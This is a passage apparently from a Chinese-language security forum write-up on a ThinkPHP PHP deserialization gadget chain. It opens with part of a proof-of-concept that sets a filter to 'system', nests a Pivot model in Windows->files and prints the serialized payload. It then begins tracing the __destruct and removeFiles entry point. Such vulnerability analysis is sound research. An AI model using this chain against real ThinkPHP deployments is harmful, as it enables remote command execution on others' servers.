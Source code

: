 ```php
        'var_ajax'         => '_ajax',  
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ["var_ajax"=>''];
        $this->hook = ["visible"=>[$this,"isAjax"]];
    }
}

namespace think\process\pipes;

use think\model\concern\Conversion;
use think\model\Pivot;
class Windows
{
    private $files = [];

    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}
namespace think\model;

use think\Model;

class Pivot extends Model
{
}

use think\process\pipes\Windows;
echo (serialize(new Windows()));
?>
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-10f17415d4aa7fcf06835b32fcbb03e88aa26c39.png)

### 漏洞分析

我们首先全局搜索以下`__destruct()`方法作为我们漏洞入口，位置再Whindows.php about56line

```php
public function __destruct()
    {
        $this->close();
        $this->removeFiles();
    }
```

跟进`removeFiles()`

```php
private function removeFiles()
    {
        foreach ($this->files as $filename) {
            if (file_exists($filename)) {
                @unlink($filename);
            }
        }
        $this->files = [];
    }
```
